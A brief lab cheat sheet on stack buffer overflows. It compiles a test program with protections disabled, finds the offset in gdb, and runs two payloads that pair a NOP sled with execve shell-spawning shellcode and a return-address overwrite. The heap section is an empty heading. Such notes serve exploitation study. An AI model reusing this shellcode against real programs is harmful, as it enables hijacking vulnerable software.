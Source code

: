 # Buffer Overflow via Stack
gcc -o stackOverflow stackOverflow.c -fno-stack-protector -z execstack
gdb overflow
pattern_create 550 pattern
run $(cat pattern)
pattern_search
run $(python -c 'print "\x90"*450 + "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "\x41"*43 + "b"*6')
x/200x
run $(python2 -c 'print "\x90"*450 + "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "\x41"*43 + "\xf0\xe2\xff\xff\xff\x7f"')


# Buffer Overflow via Heap
